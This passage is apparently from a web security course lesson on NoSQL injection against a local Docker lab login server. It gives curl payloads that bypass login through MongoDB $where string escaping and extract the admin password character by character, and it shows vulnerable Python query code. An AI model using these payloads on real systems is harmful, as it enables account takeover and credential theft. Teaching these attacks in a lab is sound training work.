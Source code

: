 Run this example by navigating to `src/lesson12/nosql_escaped` and running `docker compose up --build`. We can test a valid query with a standard GET request like below:

```shell
curl "http://localhost:9000/login?username=admin&password=pass"
# Login successful! Welcome, admin!
curl "http://localhost:9000/login?username=admin&password=fail"
# Invalid username or password.
```

Attacking this server is accomplished in the same manner as SQLi—we need to escape the query string so that the JSON is interpreted differently. 

```shell
curl "http://localhost:9000/login?username=admin'||'a'=='b"    
# Login successful! Welcome, admin!
```

This query passes because `"$where": "this.username == 'admin' || 'a'=='b && this.password == ''"`. The first clause matches on the `admin` record and the second fails a comparison, but because of the `||` operator we receive the `admin` record!

We can use `this.password[X]` to iterate through the matched record and compare it with a given character, using the 200 responses as positive feedback that we're making progress on the password. For example, we can construct the query `username=admin' && this.password[0] == 'a' || 'a'=='b"` to compare the first character of the `admin` user's password to `'a'`. If this fails, we can try another character until we succeed. _Note that we need to URL encode the `&`, `[` and `]` characters, otherwise they will not be sent/accepted._

```shell
curl "http://localhost:9000/login?username=admin'%26%26this.password%5b0%5d=='a'||'a'=='b"
# Invalid username or password.

curl "http://localhost:9000/login?username=admin'%26%26this.password%5b0%5d=='p'||'a'=='b"
# Login successful! Welcome, admin!
```

This approach works in much the same way as response-based Blind SQLi from the prior lesson, and we can use the same brute-forcing strategy to leak user information from the database!

#### Attacking Query Comparisons

Escaping query strings does not help us with the [[server.py]] (and [[local_server.py]]) server, however, because its query parses the parameters independently and fetches them using a JSON dictionary:

```python
    data = request.json
    username = data.get('username')
    password = data.get('password')

    user = collection.find_one({"username": username, "password": password}, {"_id": 0})
```

Trying to escape the `username` does not have the same effect because queries are matched by `key:value`—the username is interpreted as a string value on its own so we cannot use `'` to escape the overarching query. That is where query comparisons come in.
